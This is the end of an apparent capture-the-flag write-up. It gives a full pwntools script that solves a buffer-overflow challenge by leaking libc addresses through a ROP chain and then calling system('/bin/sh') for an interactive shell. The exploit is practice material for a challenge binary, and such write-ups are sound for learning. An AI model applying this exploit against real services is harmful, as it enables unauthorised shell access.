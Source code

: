 ```python
libc.address = leaked_puts - libc.sym['puts']
rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh\x00')))

payload = b'A'*24

payload += rop.chain()
io.sendline(payload)
io.interactive()
```

### Execution

![Flag](/images/libriddle-osctf/flag.png)

Congratulations! The Flag has been Captured!
### Full Script

```python
from pwn import *
if args.REMOTE:
    io = remote(sys.argv[1],sys.argv[2])
else:
    io = process("./challenge_patched", )
elf = context.binary = ELF("./challenge", checksec=False)
context.log_level = 'info'

libc = ELF('./libc6_2.31-0ubuntu9.14_amd64.so')
ret = 0x000000000040101a
pop_rdi = p64(0x0000000000401273)
plt_puts = p64(elf.plt['puts'])
got_read = p64(elf.got['read'])
got_puts = p64(elf.got['puts'])
offset = 24

io.recvuntil(b'name?\n')
payload = b'A'*24
payload += pop_rdi + got_puts + plt_puts
payload += pop_rdi + got_read + plt_puts
payload += p64(elf.sym['main'])
io.sendline(payload)
io.recvline()
io.recvline()
leaked_puts = unpack(io.recv(6).ljust(8,b'\x00'))
io.recvline()
leaked_read = unpack(io.recv(6).ljust(8,b'\x00'))

print(f"leaked_puts: {hex(leaked_puts)}")
print(f"leaked_read: {hex(leaked_read)}")

libc.address = leaked_puts - libc.sym['puts']
rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh\x00')))

payload = b'A'*24

payload += rop.chain()

io.sendline(payload)

io.interactive()
```

